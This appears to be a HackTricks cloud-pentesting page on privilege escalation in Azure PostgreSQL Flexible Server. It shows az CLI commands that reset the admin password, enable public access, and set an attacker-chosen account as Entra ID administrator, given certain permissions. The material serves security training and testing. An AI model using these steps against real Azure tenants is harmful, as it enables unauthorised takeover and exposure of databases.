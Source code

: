 # Az - PostgreSQL Privesc

{{#include ../../../banners/hacktricks-training.md}}

## PostgreSQL Privesc
For more information about SQL Database check:

{{#ref}}
[az-postgresql.md](../az-services/az-postgresql.md)
{{#endref}}

### `Microsoft.DBforPostgreSQL/flexibleServers/read` && `Microsoft.DBforPostgreSQL/flexibleServers/write`

With this permission, you can create, update, or delete PostgreSQL Flexible Server instances on Azure. This includes provisioning new servers, modifying existing server configurations, or decommissioning servers.

```bash
az postgres flexible-server create \
    --name <ServerName> \
    --resource-group <ResourceGroupName> \
    --location <Location> \
    --admin-user <AdminUsername> \
    --admin-password <AdminPassword> \
    --sku-name <SkuName> \
    --storage-size <StorageSizeInGB> \
    --tier <PricingTier> \
    --version <PostgreSQLVersion>
```

For example, this permissions allow changing the PostgreSQL password, usefull of course in case that PostgreSQL authentication is enabled.

```bash
az postgres flexible-server update \
    --resource-group <resource_group_name> \
    --name <server_name> \
    --admin-password <password_to_update>
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az postgres flexible-server update --resource-group <resource_group_name> --server-name <server_name> --public-access Enabled
```

### `Microsoft.DBforPostgreSQL/flexibleServers/read`, `Microsoft.DBforPostgreSQL/flexibleServers/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.DBforPostgreSQL/flexibleServers/administrators/write` && `Microsoft.DBforPostgreSQL/flexibleServers/administrators/read`

With this permission, you can configure Azure Active Directory (AD) administrators for a PostgreSQL Flexible Server. This can be exploited by setting oneself or another account as the AD administrator, granting full administrative control over the PostgreSQL server. Updating existing principal is not supported yet so if there is one created you must delete it first.

It's important that the flexible-server has a user assigned managed identities to use.

```bash
az postgres flexible-server ad-admin create \
    --resource-group <ResourceGroupName> \
    --server-name <ServerName> \
    --display-name <ADAdminDisplayName> \
    --identity <IdentityNameOrID> \
    --object-id <ObjectID>
```

{{#include ../../../banners/hacktricks-training.md}}


